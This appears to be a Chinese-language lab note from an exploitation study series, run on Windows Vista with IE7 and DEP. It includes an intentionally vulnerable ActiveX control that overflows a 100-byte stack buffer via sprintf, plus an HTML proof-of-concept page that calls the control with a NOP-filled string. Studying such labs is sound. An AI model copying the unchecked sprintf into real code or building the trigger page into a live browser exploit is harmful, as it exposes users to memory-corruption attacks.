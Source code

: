 ![Bildschirmfoto 2018-10-06 um 10.39.03 AM.png]({{ site.url }}/images/0day/A3DB5AC1825CDA9DEE08C4EED5507F6D.png)

```
# 实验环境
OS: Windows Vista SP1
IE: 7.0
Flash Player: 0.262
DEP: Optin
GS: 关闭
```

又遇到了曾经的问题！这次连ActiveX控件在OD中都看不到，在IE上“管理加载项”也看不到。我推测这里的问题应该和第十二章最后的几个实验遇到的问题相似，将来一起解决。

---

**更新**

后来朋友建议使用IE Web Developer去debug一下看看。这个工具的确很好用，不过也没发现问题所在。重启了Vista后，竟然解决了。这可能就是计算机玄学的魅力所在吧。

与以往相同，准备材料如下：

- 具有溢出漏洞的ActiveX控件

与第十二章的完全相同：

```c
void CVulnerAXCtrl::test(LPCTSTR str)
{
	// AFX_MANAGE_STATE(AfxGetStaticModuleState());
	// TODO: 在此添加调度处理程序代码
	printf("aaaa");
	char dest[100];
	sprintf(dest,"%s",str);	
}
```

注意在`regsvr32`时以管理员身份进行。

- 可以触发ActiveX控件中漏洞的PoC页面

```html
<html>  
<body>  
<object classid="clsid:D27CDB6E-AE6D-11cf-96B8-444553540000" codebase="http://download.macromedia.com/pub/shockwave/cabs/flash/swflash.cab#version=9,0,28,0" width="160" height="260">
  <param name="movie" value="1.swf" />
  <param name="quality" value="high" />
  <embed src="1.swf" quality="high" pluginspage="http://www.adobe.com/shockwave/download/download.cgi?P1_Prod_Version=ShockwaveFlash" type="application/x-shockwave-flash" width="160" height="260"></embed>
</object>
<object classid="clsid:18DC4D8E-82EB-4CB7-824B-E6DEC800562A" id="test"></object>  
<script>  
var s = "\u9090";
while (s.length < 54) {
s += "\u9090";
}
s += "\u9090\u9090";
test.test(s);  
</script>  
</body>  
</html>
```
